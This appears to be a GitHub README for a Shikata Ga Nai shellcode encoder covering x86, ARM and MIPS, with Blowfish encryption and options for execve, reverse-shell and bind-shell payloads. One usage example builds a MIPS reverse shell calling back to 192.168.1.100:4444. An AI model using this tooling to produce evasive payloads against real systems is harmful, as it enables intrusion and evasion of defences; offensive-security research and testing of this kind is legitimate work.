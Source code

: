 
# Shikata Ga Nai Encoder

This project provides a custom implementation of the Shikata Ga Nai encoder for multiple architectures, including x86, ARM, and MIPS, with support for both 32-bit and 64-bit systems. It allows for encoding shellcode using the Shikata Ga Nai technique, avoiding nulls and newlines, and offers flexible encryption using Blowfish. 

## Features
- Supports **x86**, **ARM**, and **MIPS** architectures.
- Both **32-bit** and **64-bit** versions supported.
- Custom Shikata Ga Nai encoding without external libraries like pwntools.
- Optional Blowfish encryption.
- Avoids nulls and newlines in shellcode.

## Command Line Options

- `--arch`: Select the architecture (`x86`, `arm`, `mips`) [default: `x86`].
- `--shellcode`: Choose the shellcode type (`execve`, `reverse`, `bind`, `uname`) [default: `execve`].
- `--ip`: IP address for reverse shell [default: `127.0.0.1`].
- `--port`: Port for reverse or bind shell [default: `8888`].
- `--debug`: Enable debug breakpoint.
- `--pusscat`: Use Shikata Ga Nai encoding instead of Blowfish encryption.
- `--bitness`: Choose between 32-bit and 64-bit for the selected architecture [default: `32`].

## Usage Examples

### 1. Run `uname -a` shellcode with Blowfish encryption (default)
```bash
python3 shikata_ga_nai.py --arch x86 --shellcode uname
```

### 2. Run `uname -a` shellcode with Shikata Ga Nai encoding for ARM 64-bit
```bash
python3 shikata_ga_nai.py --arch arm --bitness 64 --shellcode uname --pusscat
```

### 3. Run reverse shell for MIPS with Shikata Ga Nai encoding for 32-bit
```bash
python3 shikata_ga_nai.py --arch mips --bitness 32 --shellcode reverse --pusscat --ip 192.168.1.100 --port 4444
```

## Docker Usage

You can build and run this project using Docker. 

### Build the Docker Image:
```bash
docker build -t shikata_ga_nai_encoder .
```

### Run the Docker Container:
```bash
docker run --rm shikata_ga_nai_encoder
```

## License
This project is licensed under the MIT License.
